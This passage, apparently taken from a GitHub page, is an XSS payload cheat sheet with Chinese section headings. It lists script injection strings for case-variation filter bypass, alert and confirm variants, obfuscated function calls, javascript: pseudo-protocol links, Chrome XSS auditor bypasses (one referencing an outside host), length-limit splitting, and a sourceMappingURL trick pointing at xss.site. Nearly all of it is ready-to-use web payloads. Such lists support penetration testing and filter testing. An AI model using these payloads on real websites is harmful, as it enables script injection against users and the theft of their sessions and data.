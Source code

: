 #### 2. 大小写绕过
- `<script>alert(1)</script>`
- `<sCrIpT>alert(1)</sCrIpT>`
- `<ScRiPt>alert(1)</ScRiPt>`
- `<sCrIpT>alert(1)</ScRiPt>`
- `<ScRiPt>alert(1)</sCrIpT>`
- `<img src=1 onerror=alert(1)>`
- `<iMg src=1 oNeRrOr=alert(1)>`
- `<ImG src=1 OnErRoR=alert(1)>`
- `<img src=1 onerror="alert(&quot;M&quot;)">`
- `<marquee onscroll=alert(1)>`
- `<mArQuEe OnScRoLl=alert(1)>`
- `<MaRqUeE oNsCrOlL=alert(1)>`

#### 3. 各种alert
- `<script>alert(1)</script>`
- `<script>confirm(1)</script>`
- `<script>prompt(1)</script>`
- `<script>alert('1')</script>`
- `<script>alert("1")</script>`
- `<script>alert`1`</script>`
- `<script>(alert)(1)</script>`
- `<script>a=alert,a(1)</script>`
- `<script>[1].find(alert)</script>`
- `<script>top["al"+"ert"](1)</script>`
- `<script>top["a"+"l"+"e"+"r"+"t"](1)</script>`
- `<script>top[/al/.source+/ert/.source](1)</script>`
- `<script>top[/a/.source+/l/.source+/e/.source+/r/.source+/t/.source](1)</script>`

#### 4. 伪协议
- `<a href=javascript:/0/,alert(%22M%22)>M</a>`
- `<a href=javascript:/00/,alert(%22M%22)>M</a>`
- `< href=javascript:/000/,alert(%22M%22)>M</`a>
- `<a href=javascript:/M/,alert(%22M%22)>M</a>`

#### 5. Chrome XSS auditor bypass
- `?param=https://&param=@z.exeye.io/import%20rel=import%3E`
- `<base href=javascript:/M/><a href=,alert(1)>M</a>`
- `<base href=javascript:/M/><iframe src=,alert(1)></iframe>`

#### 6. 长度限制
```html
<script>s+="1"</script>
\..
<script> eval(s)</script>
```
#### 7. jquery sourceMappingURL
`</textarea><script>var a=1//@ sourceMappingURL=//xss.site</script>`
